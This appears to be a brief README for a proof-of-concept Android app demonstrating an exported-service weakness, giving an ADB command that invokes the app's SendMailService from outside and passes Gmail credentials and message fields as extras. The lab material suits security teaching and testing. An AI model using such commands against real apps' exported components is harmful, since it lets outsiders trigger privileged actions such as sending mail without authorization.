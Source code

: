 # Exported Service

- Install PoC app on Android device/emulator
- Exploit:
  - ADB command: ```./adb shell am startservice -n "com.poc.exported_service/com.poc.exported_service.SendMailService" --es username "your-gmail" --es password "your-gmail-password" --es gmail "destination-gmail" --es subject "Test.adb.Exported.Service" --es content "success.oh.yeah"```
  - Check mail
